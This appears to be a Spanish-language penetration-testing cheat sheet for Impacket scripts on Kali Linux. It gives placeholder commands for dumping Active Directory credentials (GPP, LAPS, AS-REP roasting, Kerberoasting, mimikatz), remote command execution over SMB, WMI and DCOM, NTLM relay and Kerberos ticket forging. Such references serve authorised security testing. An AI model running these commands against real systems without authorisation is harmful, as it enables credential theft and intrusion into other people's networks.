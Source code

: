 ## Impacket Scripts en Kali Linux

> ### Enumeración y Extracción de Credenciales

-   **impacket-DumpNTLMInfo**: Extrae información sobre NTLM de un objetivo.
    
    ```bash
    impacket-DumpNTLMInfo <IP>
    ```
    
-   **impacket-Get-GPPPassword**: Extrae contraseñas de Group Policy Preferences (GPP).
    
    ```bash
    impacket-Get-GPPPassword
    ```
    
-   **impacket-GetADComputers**: Obtiene información sobre computadoras en un dominio Active Directory.
    
    ```bash
    impacket-GetADComputers -dc-ip <IP_DC> -d <DOMINIO> -u <USUARIO> -p <CONTRASEÑA>
    ```
    
-   **impacket-GetADUsers**: Lista usuarios de Active Directory.
    
    ```bash
    impacket-GetADUsers -dc-ip <IP_DC> -d <DOMINIO> -u <USUARIO> -p <CONTRASEÑA>
    ```
    
-   **impacket-GetLAPSPassword**: Extrae contraseñas LAPS (Local Administrator Password Solution).
    
    ```bash
    impacket-GetLAPSPassword -dc-ip <IP_DC> -d <DOMINIO> -u <USUARIO> -p <CONTRASEÑA>
    ```
    
-   **impacket-GetNPUsers**: Extrae hashes de usuarios sin pre-autenticación en Kerberos.
    
    ```bash
    impacket-GetNPUsers <DOMINIO>/ -usersfile usuarios.txt -no-pass -dc-ip <IP_DC>
    ```
    
-   **impacket-GetUserSPNs**: Obtiene hashes Kerberos de Service Principal Names (SPN).
    
    ```bash
    impacket-GetUserSPNs -request -dc-ip <IP_DC> <DOMINIO>/<USUARIO>:<CONTRASEÑA>
    ```
    

> ### Ejecución Remota de Comandos

-   **impacket-psexec**: Ejecuta comandos en un sistema remoto utilizando SMB.
    
    ```bash
    impacket-psexec <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP>
    ```
    
-   **impacket-atexec**: Ejecuta comandos en un objetivo usando el programador de tareas.
    
    ```bash
    impacket-atexec <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP> whoami
    ```
    
-   **impacket-dcomexec**: Ejecuta comandos remotos a través de DCOM.
    
    ```bash
    impacket-dcomexec <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP> whoami
    ```
    
-   **impacket-smbexec**: Ejecuta comandos sin dejar archivos en el sistema.
    
    ```bash
    impacket-smbexec <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP>
    ```
    **impacket-wmiexec**: Ejecuta comandos a través de WMI en un sistema remoto.
    ```
    impacket-wmiexec <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP>
    ```

> ### Ataques de Relé NTLM

-   **impacket-ntlmrelayx**: Realiza ataques de relé NTLM en diferentes protocolos.
    
    ```bash
    impacket-ntlmrelayx -tf targets.txt -smb2support
    ```
    

> ### Herramientas de SMB

-   **impacket-smbclient**: Cliente SMB para interactuar con comparticiones.
    
    ```bash
    impacket-smbclient <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP>
    ```
    
-   **impacket-smbserver**: Levanta un servidor SMB en Kali.
    
    ```bash
    impacket-smbserver -smb2support <NOMBRE> <DIRECTORIO>
    ```
    
> ### Otros Scripts Relevantes

-   **impacket-addcomputer**: Agrega una máquina al dominio.
    
    ```bash
    impacket-addcomputer -dc-ip <IP_DC> -d <DOMINIO> -u <USUARIO> -p <CONTRASEÑA>
    ```
    
-   **impacket-changepasswd**: Cambia la contraseña de un usuario en el dominio.
    
    ```bash
    impacket-changepasswd <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP>
    ```
    
-   **impacket-dacledit**: Modifica permisos de objetos en Active Directory.
    
    ```bash
    impacket-dacledit -dc-ip <IP_DC> -d <DOMINIO> -u <USUARIO> -p <CONTRASEÑA>
    ```
    
-   **impacket-describeTicket**: Analiza y describe tickets Kerberos.
    
    ```bash
    impacket-describeTicket <TICKET.KRB>
    ```
    
-   **impacket-getTGT**: Obtiene un Ticket Granting Ticket (TGT) de Kerberos.
    
    ```bash
    impacket-getTGT -dc-ip <IP_DC> <DOMINIO>/<USUARIO>:<CONTRASEÑA>
    ```
    
-   **impacket-getST**: Obtiene un Service Ticket (ST) para autenticación Kerberos.
    
    ```bash
    impacket-getST -dc-ip <IP_DC> -spn <SERVICIO>/<HOST> <DOMINIO>/<USUARIO>:<CONTRASEÑA>
    ```
    
-   **impacket-mimikatz**: Extrae credenciales de memoria con Mimikatz.
    
    ```bash
    impacket-mimikatz <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP>
    ```
    
-   **impacket-owneredit**: Modifica el propietario de un objeto en Active Directory.
    
    ```bash
    impacket-owneredit -dc-ip <IP_DC> -d <DOMINIO> -u <USUARIO> -p <CONTRASEÑA>
    ```
    
-   **impacket-rpcmap**: Mapea servicios RPC en un host.
    
    ```bash
    impacket-rpcmap <IP>
    ```
    
-   **impacket-ticketer**: Crea tickets Kerberos para ataques Pass-the-Ticket.
    
    ```bash
    impacket-ticketer -nthash <NTHASH> -domain <DOMINIO> -user <USUARIO>
    ```
    
-   **impacket-wmiquery**: Ejecuta consultas WMI en un host remoto.
    
    ```bash
    impacket-wmiquery <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP>
    ```
